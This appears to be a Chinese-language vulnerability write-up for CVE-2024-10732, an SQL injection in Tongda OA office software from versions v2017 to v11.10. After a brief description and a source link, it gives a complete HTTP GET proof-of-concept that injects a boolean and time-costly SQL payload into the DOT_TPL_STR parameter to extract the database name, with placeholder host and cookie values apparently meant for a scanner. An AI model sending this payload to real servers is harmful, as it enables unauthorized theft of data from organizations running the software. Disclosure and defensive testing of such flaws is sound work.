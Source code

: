 # CVE-2024-10732

>通达OA是一款协同办公自动化软件，由北京通达信科科技有限公司自主研发，为各行业不同规模的众多用户提供信息化管理能力。

## 来源

[https://github.com/LvZCh/td/issues/17](https://github.com/LvZCh/td/issues/17)

## 简介

通达OA中存在SQL注入漏洞，攻击者通过该漏洞可以获取数据库中的敏感信息。

## 影响范围

-   v2017 <= 通达OA <= v11.10

## 漏洞类型

SQL注入

## POC

```http
GET /module/word_model/view/index.php?DOT_TPL_STR=1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B HTTP/1.1
Host: {{Hostname}}
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: {{Cookie}}
Connection: close
```



